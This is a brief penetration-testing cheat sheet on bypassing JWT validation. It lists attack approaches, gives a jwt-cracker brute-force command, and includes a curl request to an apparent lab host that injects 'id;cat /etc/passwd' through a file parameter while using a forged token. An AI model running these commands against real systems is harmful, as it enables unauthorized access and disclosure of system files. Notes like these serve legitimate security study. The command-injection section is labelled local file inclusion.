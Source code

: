 # JWT Tokens

The three main ways to bypass JWT validation:

* Using the `none` alg
* Hijacking another user
* Brute forcing the key.

### Decode the JWT token

{% embed url="https://jwt.io" %}

### Crack JWT tokens

{% embed url="https://lmammino.github.io/jwt-cracker" %}

* ```
  jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
  ```
* ### ddd

### Local file inclusion

```
curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWUzNGRkOWJmNTYxMjA0NjIyMGQxYzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imxlb25AbGVvbi5jb20iLCJpYXQiOjE2NDIyODcxMDJ9.5MlYl8Eubb0sci3Jt3cuacNSki36aGeUoHNrMWXeBXE' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```

